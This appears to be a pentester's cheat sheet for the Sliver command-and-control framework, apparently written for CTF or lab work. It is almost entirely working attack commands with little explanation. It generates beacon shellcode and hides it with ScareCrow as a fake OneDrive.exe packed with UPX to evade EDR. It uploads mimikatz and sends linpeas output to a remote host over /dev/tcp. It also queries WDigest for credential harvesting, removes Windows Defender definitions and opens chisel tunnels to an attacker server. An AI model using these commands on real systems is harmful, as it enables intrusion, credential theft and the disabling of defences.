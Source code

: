 ScareCrow and `upx` for the CTF-level bypass of EDR - [Alh4zr3d](https://www.youtube.com/@alh4zr3d3)
```bash
# Generate sliver beacon shellcode disabling shikata ga nai
generate beacon --mtls 10.10.10.10:8443 --arch amd64 --os windows --save /tmp/8443-sliver.win -f shellcode -G
mtls -L 10.10.10.10 -l 8443 
# use 
/opt/ScareCrow/ScareCrow -I /tmp/8443-sliver.win -Loader binary -domain microsoft.com -obfu -Evasion KnownDLL 
# Add For static without c runtime libraries
# Build with golang
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -trimpath
cp $JibberishName OneDrive.exe
# Pack with upx
upx OneDrive.exe
```


Sliver-O'Clock
```go
generate beacon --mtls 192.168.45.231:17200 --arch amd64 --os windows
mtls -L 192.168.45.231 -l 17200
// chown kali:kali *_*.exe && chmod +r *_*.exe
// upx 

// be warey of the arch!
upload /home/kali/Tools/mimikatz/x64/mimikatz.exe
upload /home/kali/Tools/mimikatz/x64/mimidrv.sys
upload /home/kali/Tools/mimikatz/x64/mimilib.dll    
upload /home/kali/Tools/mimikatz/x64/mimispool.dll

// SEND BACK SOME PEAS
execute -- bash -c "./linpeas.sh > /dev/tcp/$IP/34500"


execute -o icacls "c:\Windows\Temp"
execute -o whoami /all
execute -o net localgroup "administrators"
execute -o net group "domain admins" /domain
// reg query the WDIGEST
execute -o reg query HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential
// Execute powershell to run a powershell script
execute -o powershell "c:\Windows\Temp\BadScript.ps1"
// Execute assemble 
// runs any .NET assembly!
// as a executable or DLL in memory either in sacrificial or the implant process
execute-assembly -s -i $localpath/Tool.exe -- -$flagsAndArgsOfTool

sharp-hound-4 -- '-c all,GPOLocalGroup'

execute -o cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All


execute -o cmd /c "C:\PATH\chisel.exe client --fingerprint $serverFingerprint --auth user:pass $serverIP:10000 $CLIENTARGS"
// nix chisel client
execute -o bash -c "/dev/shm/chisel client --fingerprint $serverFingerprint --auth user:pass $serverIP:10000 $CLIENTARGS"

// Within a sessions run a armory package eg:
// Enumeration
seatbelt -h
// -- to segment flags and arguments
```